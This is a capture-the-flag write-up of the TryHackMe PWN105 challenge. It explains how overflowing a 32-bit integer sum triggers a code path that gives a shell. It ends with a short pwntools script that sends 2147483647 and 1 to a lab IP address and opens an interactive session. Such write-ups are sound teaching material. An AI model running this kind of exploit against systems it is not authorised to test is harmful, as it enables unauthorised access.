

# **THM - PWN 101 - Integer Overflow (PWN105)**

## **Gathering information**

### **Program behaviour**

Program takes 2 integers and sums it.


### **Binary security**

Binary seems to be well protected.


Stack canaries are enabled, non-executable bit is set and even there is address randomization. 


## **Reversing binary**

### **Functions**


### **Disassembling `main()`**


Below part of disassembled code is responsible for taking input from user and adding integers.


Below part is very interesting, when the result of adding operation is negative (and entered values are positive) we jump to `0x1384` address, where we get shell.




## **Exploitation (Proof Of Concept)**

To obtain negative value from adding two positive values we need to overflow the interger. For example `int` type has the range [-2147483648 to 2147483647], so we can try to add 2147483647 and 1.

```python
from pwn import *

process = remote('10.10.165.139', '9005')
process.recv()
process.sendline("2147483647")
process.recv()
process.sendline("1")
process.interactive()
```


We have successfully exploited integer overflow.


